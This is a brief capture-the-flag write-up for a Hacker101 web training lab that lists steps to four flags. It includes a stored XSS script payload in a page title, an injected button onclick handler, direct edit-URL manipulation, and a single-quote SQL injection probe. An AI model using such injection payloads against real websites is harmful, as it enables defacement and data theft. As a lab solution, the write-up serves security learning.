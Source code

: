 Flag 1
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/6 -> flag
![](./images/1.png)
Flag 2
# create page and use XSS payload on title
<script>alert("xss")</script> 
# when going back home, get flag

![](./images/2.png)
Flag 3
# on page 2, edit -> https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2

# change the button to this:
<button onclick=alert("pwned")>Some button</button>

# popup with alert appears, now go to source code and flag is there
![](./images/3.png)

Flag 4
# add a single quote on the edit url
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2'

![](./images/4.png)